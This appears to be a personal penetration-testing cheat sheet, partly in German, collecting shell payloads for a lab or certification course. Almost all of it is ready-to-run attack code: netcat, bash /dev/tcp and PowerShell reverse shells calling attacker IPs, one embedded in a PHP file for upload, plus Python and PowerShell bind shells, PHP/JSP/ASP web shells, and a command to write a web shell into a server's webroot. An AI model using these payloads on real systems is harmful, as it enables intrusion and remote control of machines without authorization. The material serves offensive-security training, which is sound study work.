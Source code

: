 # Reverse Shell

Test for code execution:
```php
<?php system('id'); ?>
```

___

Reverse Shell:
```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```
Add it your *php* file:
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```
Upload file and then start netcat listner, after it curl the website where you upladed the file
___
1. start `netcat` listener on a port of your choice
 ```
 nc -lvnp 1234
```

| Flag | Description                                                    |
| ---- | -------------------------------------------------------------- |
| `-l` | `Listen mode, to wait for a connection to connect to us.`      |
| `-v` | `Verbose mode, so that we know when we receive a connection.`  |
| `-n` | `Disable DNS Resolution and only connect via IPs, to speed up` |
| `-p` | `Port` netcat should be listening from                         |
2. Get your `own IP` to be able to send the connection to you (IP in tun0)
```
ip a
```

3.  Reverse Shell command for Linux, 2 options
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

3. Reverse Shell command for Powershell Windows
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```


# Bind Shell
Eine **Bind Shell** bedeutet, dass du auf einem entfernten Rechner eine Shell öffnest und sie an einen bestimmten Port bindest, sodass du dich von einem anderen Rechner aus damit verbinden kannst. Das bedeutet, dass der entfernte Rechner selbst als Server agiert, auf dem ein Listener läuft.

- IP 0.0.0.0 bedeutet, dass die Shell auf **allen** verfügbaren Netzwerk-Interfaces lauscht (also nicht nur auf einer bestimmten IP).
#### Commands to start a Bind Shell:
Bash:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
Python
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
Powershell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

#### Connect to the Bindshell
```shell-session
nc 10.10.10.1 1234
```

## To be able to access the command history in a Shell we need to upgrade our TTY

1. upgrade the type of our shell to a full TTY
```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
```
2. After we run this command, we will hit `ctrl+z` to background our shell and get back on our local terminal, and input the following `stty` command:
```shell-session
www-data@remotehost$ ^Z

Hussware0@htb[/htb]$ stty raw -echo
Hussware0@htb[/htb]$ fg
```
3. Once we hit `fg`, it will bring back our `netcat` shell to the foreground. At this point, the terminal will show a blank line. We can hit `enter` again to get back to our shell or input `reset` and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

# Web Shell
A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

#### Web Shell Skript:


php
```php
<?php system($_REQUEST["cmd"]); ?>
```
jsp
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
asp
```asp
<% eval request("cmd") %>
```

#### Damir die Webshell funktioniert muss sie ins `Webroot-Verzeichnis` des Servers gespeichert sein, damit sie über den browser aufgerufen werden kann.  Z.b. kannst dud as Skript über eine Upload funktion hochladen.

|Web Server|Default Webroot|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|
Wenn du `RCE` hast, kannst du direkt ins Verzeichnis schreiben zb auf einen Linux Host running apache:
```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Access your web shell

Over the browser:
![](CPTS/img/8ddc2f302e9bc18aea6a03765cdd10f0_MD5.jpeg)

Via curl:
```shell-session
curl http://SERVER_IP:PORT/shell.php?cmd=id
```
